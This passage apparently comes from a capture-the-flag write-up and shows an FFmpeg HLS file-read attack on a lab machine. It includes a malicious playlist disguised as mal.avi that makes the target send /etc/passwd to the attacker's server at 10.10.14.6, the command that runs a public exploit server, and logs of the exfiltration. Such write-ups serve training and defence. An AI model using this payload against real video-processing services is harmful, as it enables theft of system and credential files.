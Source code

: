 ```
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
10.10.11.157 - - [28/Jul/2022 11:52:17] code 400, message Bad request syntax ('GET /x?list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin HTTP/1.1')

```

I couldn’t find a nice way to handle that, and eventually moved on.

#### FFmpeg-HLS-SSRF

[This project](https://github.com/0xcoyote/FFmpeg-HLS-SSRF) will download files using some of the same logic I was looking for on my own. I’ll edit `mal.avi` to contain the URL the project wants:

```

#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:10.0,
http://10.10.14.6/initial.m3u?filename=/etc/passwd
#EXT-X-ENDLIST

```

Now I start the server, and upload the file. It dumps a lot of junk to the screen and eventually crashes:

```

oxdf@hacky$ python /opt/FFmpeg-HLS-SSRF/server.py --port 80 --external-addr 10.10.14.6

2022-07-28 12:23:02,423 INFO ('10.10.11.157', 50632): client connected
2022-07-28 12:23:02,424 WARNING ('10.10.11.157', 50632): request data b'GET /initial.m3u?filename=/etc/passwd HTTP/1.1\r\nUser-Agent: Lavf/56.4.101\r\nAccept: */*\r\nConnection: close\r\nHost: 10.10.14.6\r\nIcy-MetaData: 1\r\n\r\n'                                        2022-07-28 12:23:02,424 INFO ('10.10.11.157', 50632): got request b'/initial.m3u?filename=/etc/passwd'

b'HTTP/1.0 200 OK\r\nContent-Length: 162\r\n\r\n#EXTM3U\n#EXT-X-MEDIA-SEQUENCE:0\n#EXTINF:1.0\n\nhttp://10.10.14.6:80/save_data.m3u?filename=/etc/passwd&exploit_id=2956d69c4ec060d6&first_time=true\n\n\n#EXT-X-ENDLIST\n'                                                    
2022-07-28 12:23:02,602 INFO ('10.10.11.157', 50634): client connected
2022-07-28 12:23:02,603 WARNING ('10.10.11.157', 50634): request data b'GET /save_data.m3u?filename=/etc/passwd&exploit_id=2956d69c4ec060d6&first_time=true HTTP/1.1\r\nUser-Agent: Lavf/56.4.101\r\nAccept: */*\r\nConnection: close\r\nHost: 10.10.14.6:80\r\nIcy-MetaData: 1
\r\n\r\n'
...[snip]...
2022-07-28 12:23:27,882 INFO ('10.10.11.157', 50916): got request b'/save_data.m3u?filename=/etc/passwd&exploit_id=2956d69c4ec060d6&offset=1885&num_retry=10&file_data='
2022-07-28 12:23:27,883 ERROR ('10.10.11.157', 50916): exception during processing request, data = b'GET /save_data.m3u?filename=/etc/passwd&exploit_id=2956d69c4ec060d6&offset=1885&num_retry=10&file_data= HTTP/1.1\r\nUser-Agent: Lavf/56.4.101\r\nAccept: */*\r\nConnection: close\r\nHost: 10.10.14.6:80\r\nIcy-MetaData: 1\r\n\r\n'
Traceback (most recent call last):
  File "/opt/FFmpeg-HLS-SSRF/server.py", line 196, in handle_client
    response = self._handlers[requested_file](params, file_data)
  File "/opt/FFmpeg-HLS-SSRF/server.py", line 105, in save_data
    raise RuntimeError('num_retry > 10')
RuntimeError: num_retry > 10

```
